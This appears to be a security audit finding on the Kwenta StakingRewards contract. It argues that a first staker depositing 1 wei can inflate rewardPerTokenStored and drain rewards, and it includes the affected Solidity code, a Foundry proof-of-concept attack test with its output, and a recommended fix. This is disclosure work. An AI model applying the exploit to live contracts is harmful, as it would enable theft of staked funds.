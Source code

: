 Ancient Lace Wolf

Medium

# StakingRewards `rewardPerTokenStored` can be inflated and rewards can be stolen

## Summary

Inflating the `rewardPerTokenStored` is applicable with staking `1 wei` using the first staker and this will lead to drainage of rewards.

## Vulnerability Detail

As there isn't a minimum deposit amount criteria, any amount can be staked inside the StakingRewards contract. Considering this fact, when a user calls `stake()` with `1 wei`, it updates the `totalSupply` as `1 wei` and the corresponding rewards through `updateReward` modifier. This modifier calls the function `rewardPerToken()`:

```Solidity
    function rewardPerToken() public view returns (uint256) {
        uint256 allTokensStaked = totalSupply();

        if (allTokensStaked == 0) {
            return rewardPerTokenStored;
        }

        return rewardPerTokenStored
            + (((lastTimeRewardApplicable() - lastUpdateTime) * rewardRate * 1e18) / allTokensStaked);
    }
```

This function would return the accumulated `rewardPerTokenStored` plus the linear increase of the reward. Since it depends on the denominator as `allTokensStaked`, the whole multiplying will be divided by `1 wei` which will inflate the `rewardPerTokenStored` astronomically. Also there isn't any preventive check for the user to withdraw it in the withdraw function.
Thus, this scenario is applicable here:

1. User stakes `1 wei`
2. The `rewardsNotifier` transfers `1 ether` reward tokens to the contract and calls `notifyRewardAmount()` with 1 ether
3. Some time passes (e.g. 200 seconds)
4. At this time the `rewardRate` is incorrectly inflated and the user can withdraw and drain the rewards

## Proof of Concept

This test shows the attack vector explained above:
```Solidity
    function testFirstUserInflationAttack() public {

        uint rewardRate = staking.rewardPerToken();
        console.log("Initial Reward Rate is: ", rewardRate);

        address attacker = vm.addr(50);
        deal(address(kwenta), attacker, 100 ether);
        vm.startPrank(attacker);
        kwenta.approve(address(staking), 100 ether);
        staking.stake(1 wei);
        vm.stopPrank();

        vm.warp(block.timestamp + 100);

        vm.startPrank(rewardDistributor);
        usdc.transfer(address(staking), 1 ether);
        staking.notifyRewardAmount(1 ether);
        vm.stopPrank();

        vm.warp(block.timestamp + 100);

        rewardRate = staking.rewardPerToken();
        console.log("Reward Rate After Stake is: ", rewardRate);
    }
```

The test result is:

```Markdown
Ran 1 test for test/Kwenta.t.sol:KwentaTest
[PASS] testFirstUserInflationAttack() (gas: 278449)
Logs:
  Initial Reward Rate is:  0
  Reward Rate After Stake is:  165343915343900000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.45ms (286.80µs CPU time)
```

## Impact

The first user can inflate the `rewardPerTokenStored` with staking just `1 wei` and after some time he can drain the accumulated rewards.

## Code Snippet

https://github.com/sherlock-audit/2024-07-kwenta-staking-contracts/blob/main/token/contracts/StakingRewardsV2.sol#L435-L444

## Tool used

Manual Review

## Recommendation

Consider putting deposit limits in the contract StakingRewards
